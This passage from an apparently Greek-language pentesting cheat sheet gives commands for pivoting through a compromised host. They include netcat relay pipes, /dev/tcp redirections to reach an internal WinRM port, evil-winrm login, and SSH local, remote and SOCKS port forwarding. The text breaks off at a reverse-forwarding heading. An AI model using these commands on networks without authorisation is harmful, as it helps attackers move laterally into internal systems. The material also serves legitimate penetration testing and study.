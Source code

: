 ## **Bash**

**Host -> Jump -> InternalA -> InternalB**
```bash
# On the jump server connect the port 3333 to the 5985
mknod backpipe p;
nc -lvnp 5985 0<backpipe | nc -lvnp 3333 1>backpipe

# On InternalA accessible from Jump and can access InternalB
## Expose port 3333 and connect it to the winrm port of InternalB
exec 3<>/dev/tcp/internalB/5985
exec 4<>/dev/tcp/Jump/3333
cat <&3 >&4 &
cat <&4 >&3 &

# From the host, you can now access InternalB from the Jump server
evil-winrm -u username -i Jump
```
## **SSH**

SSH γραφική σύνδεση (X)
```bash
ssh -Y -C <user>@<ip> #-Y is less secure but faster than -X
```
### Local Port2Port

Άνοιγμα νέας Θύρας στον SSH Server --> Άλλη θύρα
```bash
ssh -R 0.0.0.0:10521:127.0.0.1:1521 user@10.0.0.1 #Local port 1521 accessible in port 10521 from everywhere
```

```bash
ssh -R 0.0.0.0:10521:10.0.0.1:1521 user@10.0.0.1 #Remote port 1521 accessible in port 10521 from everywhere
```
### Port2Port

Τοπική θύρα --> Συμβιβασμένος υπολογιστής (SSH) --> Τρίτο\_κουτί:Θύρα
```bash
ssh -i ssh_key <user>@<ip_compromised> -L <attacker_port>:<ip_victim>:<remote_port> [-p <ssh_port>] [-N -f]  #This way the terminal is still in your host
#Example
sudo ssh -L 631:<ip_victim>:631 -N -f -l <username> <ip_compromised>
```
### Port2hostnet (proxychains)

Τοπική Θύρα --> Συμβιβασμένος υπολογιστής (SSH) --> Οπουδήποτε
```bash
ssh -f -N -D <attacker_port> <username>@<ip_compromised> #All sent to local port will exit through the compromised server (use as proxy)
```
### Αντίστροφη Προώθηση Θυρών
